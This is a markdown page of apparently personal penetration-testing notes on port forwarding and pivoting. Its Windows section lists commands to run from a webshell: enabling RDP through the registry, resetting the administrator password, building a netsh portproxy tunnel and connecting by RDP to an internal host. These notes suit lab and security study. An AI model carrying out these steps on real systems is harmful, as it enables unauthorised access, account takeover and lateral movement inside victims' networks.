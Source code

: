 # Forwarding

Port forwarding can be useful if you get on to a victim and they are running a service locally that you want to interact with back on the attack machine. Or if the victim is connected to a network the attacker cannot access directly, proxychains in this case would allow the attacker to use the victim to attack the rest of the network

## ssh

![Pasted image 20220807173120](https://github.com/dbissell6/Shadow_Stone/assets/50979196/0868e1b6-51dd-443b-8adc-e7b5a0b44764)

<img width="587" alt="Screen Shot 2022-10-02 at 7 14 03 PM" src="https://github.com/dbissell6/Shadow_Stone/assets/50979196/790e1b77-fde9-4761-ae00-e3cda178ff00">

## proxychains

## chisel


## without ssh on windows

without ssh 
First, from the webshell, set the registry key so we can log in

```Powershell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
```

dont know any creds on the box so let’s just change the local admin’s pass, from the webshell

```Powershell
net user administrator newpass
```

now, from the linux attack host, log into a very limited cmd shell on WEB-WIN01 to setup a tunnel, where WEB-WIN01 is also the 10.X.X.X ip address of the webshell

```bash
xfreerdp /v:<WEB-WIN01> /u:administrator /p:newpass /cert:ignore
```

in the new RDP cmd window, after using `nslookup` to discover MS01 is `172.16.6.50` , make a tunnel with the `netsh` command which links WEB01’s 10.X.X.X reachable address on port 1515 to MS01’s RDP port 3389, like this:

```cmd
netsh interface portproxy add v4tov4 listenport=1515 listenaddress=<WEB-WIN01> connectport=3389 connectaddress=172.16.6.50
```

RDP into MS01 from our attack host through the tunnel we just made to MS01 on WEB-WIN01 port 1515:

```bash
xfreerdp /v:<WEB-WIN01>:1515 /u:svc_XXX /p:XXckX7 /cert:ignore
```
